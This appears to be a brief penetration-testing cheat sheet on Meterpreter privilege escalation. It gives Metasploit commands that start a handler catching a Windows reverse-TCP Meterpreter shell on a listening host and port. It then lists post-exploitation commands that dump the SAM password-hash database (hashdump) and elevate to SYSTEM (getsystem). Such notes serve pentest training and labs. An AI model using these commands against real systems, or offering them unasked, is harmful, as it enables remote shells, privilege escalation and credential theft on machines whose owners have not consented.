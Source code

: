# Meterpreter Privesc

To make the privilege escalation easier, We can switch to a meterpreter shell for ease of access of commands and run/load extensions and post-exploitation tools.

Ensure Handler is setup:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.10.10 
set LPORT 1234
run
```

Privilege Commands

```
Dumps the contents of the SAM database
hashdump
Attempt to elevate your privilege to that of local system.
getsystem    
```







